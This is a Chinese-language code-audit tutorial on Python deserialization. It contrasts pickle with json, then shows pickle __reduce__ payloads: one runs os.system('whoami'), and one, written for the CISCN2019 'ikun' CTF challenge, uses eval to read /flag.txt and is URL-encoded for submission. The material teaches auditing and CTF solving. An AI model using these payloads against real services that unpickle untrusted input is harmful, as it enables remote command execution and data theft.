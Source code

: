 # 代码审计

## 一、审计基础

### 1、反序列化

`python`中序列化一般有两种方式：`pickle`模块和`json`模块，前者是`python`特有的格式，后者是`json`通用的格式。

以下均显示为`python2`版本序列化输出结果，`python3`的`pickle.dumps`结果与`python2`不一样。

**pickle**

```text
import pickle

dict = {"name": 'zjun', "age": 19}
a = pickle.dumps(dict)
print(a, type(a))
b = pickle.loads(a)
print(b, type(b))
```

输出：

```text
("(dp0\nS'age'\np1\nI19\nsS'name'\np2\nS'zjun'\np3\ns.", <type 'str'>)
({'age': 19, 'name': 'zjun'}, <type 'dict'>)
```

**json**

```text
import json
dict = {"name": 'zjun', "age": 19}
a = json.dumps(dict, indent=4)
print(a, type(a))
b = json.loads(a)
print(b, type(b))
```

其中`indent=4`起到一个数据格式化输出的效果，当数据多了就显得更为直观，输出：

```text
{
    "name": "zjun",
    "age": 19
} <class 'str'>
{'name': 'zjun', 'age': 19} <class 'dict'>
```

再看看一个`pickle`模块导致的安全问题

```text
import pickle
import os

class obj(object):
    def __reduce__(self):
        a = 'whoami'
        return (os.system, (a, ))

r = pickle.dumps(obj())
print(r)
pickle.loads(r)
```

通过构造`__reduce__`可达到命令执行的目的，详见：[Python魔法方法指南](https://pyzh.readthedocs.io/en/latest/python-magic-methods-guide.html)

![](https://xzfile.aliyuncs.com/media/upload/picture/20200809201530-046eea10-da3a-1.png)

先输出`obj`对象的序列化结果，再将其反序列化，输出

```text
cposix
system
p0
(S'whoami'
p1
tp2
Rp3
.
zjun
```

成功执行了`whoami`命令。

**实例：CISCN2019 华北赛区 Day1 Web2 ikun**

[CISCN2019 华北赛区 Day1 Web2 ikun](https://www.zjun.info/2019/ikun.html)，前面的细节讲得很清楚了，这里接着看反序列化的考点。

![](https://xzfile.aliyuncs.com/media/upload/picture/20200809201533-0664f3aa-da3a-1.png)

第`19`行处直接接收`become`经`url`解码与其反序列化的内容，存在反序列化漏洞，构造`payload`读取`flag.txt`文件：

```text
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a)
```

```text
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

将生成的`payload`传给`become`即可。

